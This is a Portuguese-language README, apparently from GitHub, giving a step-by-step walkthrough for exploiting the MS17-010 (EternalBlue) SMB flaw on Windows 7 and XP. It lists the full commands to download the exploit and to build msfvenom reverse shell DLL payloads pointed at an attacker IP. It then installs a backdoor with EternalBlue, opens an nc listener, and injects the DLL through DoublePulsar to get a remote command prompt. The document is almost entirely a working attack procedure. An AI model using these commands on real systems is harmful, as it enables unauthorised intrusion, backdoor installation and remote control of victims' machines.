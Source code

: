 Realize o download do exploit, descompacte o arquivo ms17-010.tar.gz.
<br>

https://github.com/caique-garbim/MS17-010/raw/main/ms17-010.tar.gz
```
tar xf ms17-010.tar.gz
```
```
cd ms17-010/
```
### Exploração
Gerando payload reverse shell non-staged com **msfvenom** para explorar Windows 32 bits
```
msfvenom -p windows/shell_reverse_tcp LHOST=172.20.1.53 LPORT=8080 -f dll > shell.dll
```

ou

Gerando payload reverse shell non-staged com **msfvenom** para explorar Windows 64 bits
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.20.1.53 LPORT=8080 -f dll > shell.dll
```
- IP da máquina atacante: 172.20.1.53
- Porta que irá receber a conexão reversa: 8080
<br>

Instalando backdoor no servidor alvo com EternalBlue (Windows 7):
```
wine Eternalblue-2.2.0.exe --TargetIp 172.16.1.145 --Target WIN72K8R2 --DaveProxyPort=0 --NetworkTimeout 60 --TargetPort 445 --VerifyTarget True --VerifyBackdoor True --MaxExploitAttempts 3 --GroomAllocations 12 --OutConfig 1.txt
```

ou

Instalando backdoor no servidor alvo com EternalBlue (Windows XP):
```
wine Eternalblue-2.2.0.exe --TargetIp 172.16.1.145 --Target XP --DaveProxyPort=0 --NetworkTimeout 60 --TargetPort 445 --VerifyTarget True --VerifyBackdoor True --MaxExploitAttempts 3 --GroomAllocations 12 --OutConfig 1.txt
```
- IP do servidor alvo: 172.16.1.145
<br>

Preparando a máquina atacante para receber a conexão reversa (em outro terminal):
```
rlwrap nc -vnlp 8080
```
<br>

Enviando shellcode para injetar DLL com DoublePulsar (para explorar Windows 32 bits):
```
wine Doublepulsar-1.3.1.exe --OutConfig 2.txt --TargetIp 172.16.1.145 --TargetPort 445 --DllPayload shell.dll --DllOrdinal 1 --ProcessName svchost.exe --ProcessCommandLine --Protocol SMB --Architecture x86 --Function Rundll
```

ou

Enviando shellcode para injetar DLL com DoublePulsar (para explorar Windows 64 bits):
```
wine Doublepulsar-1.3.1.exe --OutConfig 2.txt --TargetIp 172.16.1.145 --TargetPort 445 --DllPayload shell.dll --DllOrdinal 1 --ProcessName svchost.exe --ProcessCommandLine --Protocol SMB --Architecture x64 --Function Rundll
```
- IP do servidor alvo: 172.16.1.145
<br>
 
Observe que a conexão reversa foi estabelecida e foi obtido acesso ao prompt de comando do Windows:
![image](https://user-images.githubusercontent.com/76706456/172243037-3162bf1f-c6ad-45d6-a841-f9cd5cbc5c1b.png)
